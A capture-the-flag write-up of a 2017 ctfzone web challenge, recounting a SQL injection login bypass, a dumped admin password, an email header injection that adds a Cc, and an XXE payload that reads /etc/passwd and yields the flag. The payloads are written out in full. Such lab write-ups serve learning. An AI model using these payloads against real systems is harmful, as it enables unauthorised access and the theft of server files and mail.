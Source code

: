 So first it was really amazing task that make me work hard and try again and again to get something
Our team was working on this task and its a good way to get the job done when you have good web guys
We didnt get the last part which is just 5% of the task but we did well even we dont get the flag before the ctf end

Its good too to share what we get and why not to share last part we miss 

First it was a web login page that 

![login](https://user-images.githubusercontent.com/7364615/28275160-5715e578-6b13-11e7-8be3-746bb7dcc705.PNG)

OK here where the challenge start

As always check sql injection is the good way to fast work :D 
and as usual it works :D

simple login bypass  ' or 1=1 -- in username do the job 

then just start dump database and get some data which was not so interesting for us , not flag in data base 

current DB : task200
Table : users
user : admin
password : verystrongpassword

and also table posts with static data

anyway lets go far 

when we login we get this page 

![image](https://user-images.githubusercontent.com/7364615/28275423-1083f16c-6b14-11e7-9240-56dd1a0a9b34.png)

here me and my team start think about phpmailer bug , but not work after some test 

then after some check we get that its email header injection that make us able to redirect the email to our account :D 
look amazing new here :D 

this is our payload used : 
POST : subject=Report+from+16-07-2017+12-18%0d%0aCc:email@gmail.com%0d%0a&encoding=UTF-8

![image](https://user-images.githubusercontent.com/7364615/28275535-6a91760c-6b14-11e7-80e9-396f88656232.png)

it was xml file 

![image](https://user-images.githubusercontent.com/7364615/28275635-c5548e44-6b14-11e7-82cd-7fd7aa3e97ca.png)

here look XML External Entity (XXE) 

so all we need to do is to make xxe in subject to get email with some data from the server

it was really bad for us , we make all test but we miss the last part to make this work 

the last payload to get flag is to read /etc/passwd file from the server 

payload : subject=-->%26xxe;test123%0d%0aCc:+email@gmail.com&encoding=UTF-8"%3f><!DOCTYPE+foo+[<!ELEMENT+foo+ANY+><!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><report><about><subject><!--

![image](https://user-images.githubusercontent.com/7364615/28275820-5f3df590-6b15-11e7-9a62-8b544b79b853.png)

and the flag was : ctfzone{c5b8865cc6d98898f391c911f4c371a3}
